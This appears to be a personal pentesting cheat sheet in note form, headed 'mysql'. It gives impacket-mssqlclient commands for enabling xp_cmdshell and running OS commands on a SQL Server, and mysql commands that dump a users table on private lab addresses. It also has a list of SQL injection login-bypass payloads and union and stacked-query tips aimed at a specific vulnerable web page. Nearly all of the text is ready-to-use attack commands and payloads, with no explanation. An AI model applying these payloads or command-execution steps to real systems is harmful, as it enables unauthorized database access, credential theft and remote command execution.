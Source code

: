 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[mysql]]  
___

## Description:  

impacket-mssqlclient sa@10.10.110.58 

Command injection with impacket
     enable_xp_cmdshell         - you know what it means
     disable_xp_cmdshell        - you know what it means
     xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
     sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
     ! {cmd}                    - executes a local shell cmd



I could not use sudo for remote (locally remove the -h flag):


```
mysql -h 192.168.101.29 -u root -p

Show databases;

Use Users;

Show tables;

Select * from users;


```

### mysql Injection

Try:

```
‘ OR 1=1--

```
If there is filtering going on try alternates like:

```
'||1=1#
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1--
'*'

```
### Getting User defined Tables
`SELECT table_name FROM information_schema.tables WHERE table_schema = 'databasename'

### Getting Column Names
`SELECT table_name, column_name FROM information_schema.columns WHERE table_name = 'tablename'

### ping check

`EXEC master.dbo.xp_cmdshell 'ping '


### mysql injection

vulnerable webpage: http://192.168.209.43:8080/WorkOrder.do?woMode=viewWO&woID=1

add ); to stack queries

add ' union for union injections





___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (12:02 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
